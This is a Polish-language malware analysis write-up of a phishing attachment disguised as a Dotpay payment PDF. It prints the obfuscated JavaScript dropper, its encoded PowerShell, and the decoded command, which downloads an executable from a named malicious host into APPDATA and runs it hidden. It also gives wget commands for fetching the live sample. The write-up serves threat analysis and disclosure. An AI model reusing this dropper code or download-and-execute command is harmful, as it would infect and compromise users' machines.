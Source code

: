 System: Linux / Bash / Python 3

### Email

(zrzut ekranu: Alt+PrintScreen)

![#1](images/screenshot.png?raw=true)   

### Sprawdzenie typu pliku z załącznika

```bash
$ file Platnosc_w_systemie_Dotpay_M6694-5134_PDF.z 
```
```
Platnosc_w_systemie_Dotpay_M6694-5134_PDF.z: RAR archive data, v1d, os: Win32
```

### Ręczne rozkompresowanie załącznika

```bash
$ unrar e Platnosc_w_systemie_Dotpay_M6694-5134_PDF.z
```

### Uruchomienie skryptu

```bash
$ python main.py Płatnosc_w_systemie_Dotpay_M6694-5134_PDF.js
```
```
--- wczytane z pliku (jako Unicode)---

var _0xc9a5=["shell.application","powershell.exe","powershell.ex
e -ExecutionPolicy bypass -noprofile -windowstyle hidden -Encode
dCommand UABvAHcAZQByAFMAaABlAGwAbAAgAC0ARQB4AGUAYwB1AHQAaQBvAG4
AUABvAGwAaQBjAHkAIABiAHkAcABhAHMAcwAgAC0AbgBvAHAAcgBvAGYAaQBsAGU
AIAAtAHcAaQBuAGQAbwB3AHMAdAB5AGwAZQAgAGgAaQBkAGQAZQBuACAALQBjAG8
AbQBtAGEAbgBkACAAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0
ALgBOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQ
ARgBpAGwAZQAoACcAaAB0AHQAcAA6AC8ALwB0AGUAbgBvAHIALgBjAG8AbQAuAHA
AbAAvAHAAbABpAGsAaQAvAGIAaQBuAHMAdAB4AHQALgBlAHgAZQAnACwAHSAkAGU
AbgB2ADoAQQBQAFAARABBAFQAQQBcAGIAaQBuAHMALgBlAHgAZQAdICkAOwBTAHQ
AYQByAHQALQBQAHIAbwBjAGUAcwBzACAAKAAdICQAZQBuAHYAOgBBAFAAUABEAEE
AVABBAFwAYgBpAG4AcwAuAGUAeABlAB0gKQA=","C:\Windows\system32\Wind
owsPowerShell\v1.0","open","1"];var RzSdcVPN= new ActiveXObject(
_0xc9a5[0]);RzSdcVPN.ShellExecute(_0xc9a5[1],_0xc9a5[2],_0xc9a5[
3],_0xc9a5[4],_0xc9a5[5]) 

--- wycinek po "-EncodedCommand" ---

UABvAHcAZQByAFMAaABlAGwAbAAgAC0ARQB4AGUAYwB1AHQAaQBvAG4AUABvAGwA
aQBjAHkAIABiAHkAcABhAHMAcwAgAC0AbgBvAHAAcgBvAGYAaQBsAGUAIAAtAHcA
aQBuAGQAbwB3AHMAdAB5AGwAZQAgAGgAaQBkAGQAZQBuACAALQBjAG8AbQBtAGEA
bgBkACAAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUA
dAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQARgBpAGwA
ZQAoACcAaAB0AHQAcAA6AC8ALwB0AGUAbgBvAHIALgBjAG8AbQAuAHAAbAAvAHAA
bABpAGsAaQAvAGIAaQBuAHMAdAB4AHQALgBlAHgAZQAnACwAHSAkAGUAbgB2ADoA
QQBQAFAARABBAFQAQQBcAGIAaQBuAHMALgBlAHgAZQAdICkAOwBTAHQAYQByAHQA
LQBQAHIAbwBjAGUAcwBzACAAKAAdICQAZQBuAHYAOgBBAFAAUABEAEEAVABBAFwA
YgBpAG4AcwAuAGUAeABlAB0gKQA= 

--- decode base64 i utf16 ---

PowerShell -ExecutionPolicy bypass -noprofile -windowstyle hidde
n -command (New-Object System.Net.WebClient).DownloadFile('http:
//tenor.com.pl/pliki/binstxt.exe',”$env:APPDATA\bins.exe”);Start
-Process (”$env:APPDATA\bins.exe”) 
```

### Pobranie pliku z serwera

Po decodowaniu tekstu widać link do pliku na serwerze WWW więc można spróbować go ściągnąć

```bash
$ wget http://tenor.com.pl/pliki/binstxt.exe
```

Pliku już nie było na serwerze.

Na portalu `Zaufana Trzecia Strona` można znaleźć inny adres, który był wciąż aktywny.

```bash
$ wget http://faashionelka.pl/online/binstxt.exe
```

### Przejrzenie zawartości

Wyświetlenie napisów w pliku

```bash
$ strings binstxt.exe
```

Nic ciekawego nie pokazało (może oprócz MicrosoftEdgeBrowserExporter.exe)

### Sprawdzenie adresów WWW

```bash
$ whois faashionelka.pl
```

```
DOMAIN NAME:           faashionelka.pl
registrant type:       individual
nameservers:           guy.ns.cloudflare.com. 
                       jade.ns.cloudflare.com. 
created:               2017.11.20 21:04:20
last modified:         2017.11.21 02:26:06
renewal date:          2018.11.20 21:04:20

no option

dnssec:                Unsigned


REGISTRAR:
nazwa.pl sp. z o.o.
ul. Mieczysława Medweckiego 17
31-870 Kraków
Polska/Poland
+48.801 33 22 33
+48.12 297 88 10 
+48.12 297 88 08
kontakt@nazwa.pl
www.nazwa.pl

WHOIS database responses: http://www.dns.pl/english/opiskomunikatow_en.html

WHOIS displays data with a delay not exceeding 15 minutes in relation to the .pl Registry system
Registrant data available at http://dns.pl/cgi-bin/en_whois.pl
```
---

### Informacje dodatkowe:

Zaufana Trzecia Strona: [Uwaga na nową kampanię malware „Platnosc w systemie Dotpay”](https://zaufanatrzeciastrona.pl/post/uwaga-na-nowa-kampanie-zlosliwego-oprogramowania-platnosc-w-systemie-dotpay/)
